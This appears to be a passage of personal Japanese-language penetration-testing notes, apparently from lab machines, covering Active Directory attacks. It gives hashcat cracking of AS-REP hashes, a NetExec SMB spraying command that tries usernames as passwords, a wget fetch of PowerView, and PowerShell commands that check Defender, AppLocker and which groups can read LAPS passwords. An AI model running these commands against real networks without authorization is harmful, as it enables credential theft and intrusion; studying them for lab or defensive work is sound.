 ```shell
(hashcat)
hashcat -m 18200 asrep_hashes.txt /path/to/wordlist.txt
```


## ユーザー名とパスワードが同じ
- [[BabyTwo]]で出てきた手法
- そんな馬鹿なと思うかもしれないが、パスワードの使い回しと同じレベルで意外とあるのかも
	- とりあえずやってみるのもいいかも
	- 以下のコマンドはブルーとフォースモードなので、他のユーザーアカウント名をパスワードとして扱っている場合も含んでいる
```sh
nxc smb 10.129.234.72 -u valid_ad_users -p valid_ad_users --continue-on-success
```
# Enviroment Check
侵入先の環境の列挙
## セキュリティコントロールの確認
### Powershell

PowerViewはこいつしか信用するな
```sh
wget https://github.com/PowerShellMafia/PowerSploit/raw/refs/heads/dev/Recon/PowerView.ps1
```

Get-MpComputerStatus
- Windows Defenderのリアルタイム保護などの状態確認
```powershell
Get-MpComputerStatus
```

Get-AppLockerPolicy 
- 適用されているAppLockerポリシー（アプリケーション実行制限）の確認
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

$ExecutionContext.SessionState.LanguageMode
- 現在のPowerShellセッションの言語モード（FullLanguage, ConstrainedLanguageなど）の確認
```powershell
$ExecutionContext.SessionState.LanguageMode
```

## LAPSの確認
### PowerView

 Find-LAPSDelegatedGroups 
- LAPSで管理されているローカル管理者パスワードを読み取る権限を持つグループの検索
```powershell
Find-LAPSDelegatedGroups
```

Find-AdmPwdExtendedRights
- LAPSが有効な各コンピューターの権限をチェックし、パスワード読み取り権限を持つグループやユーザーの特定
```powershell
Find-AdmPwdExtendedRights
```
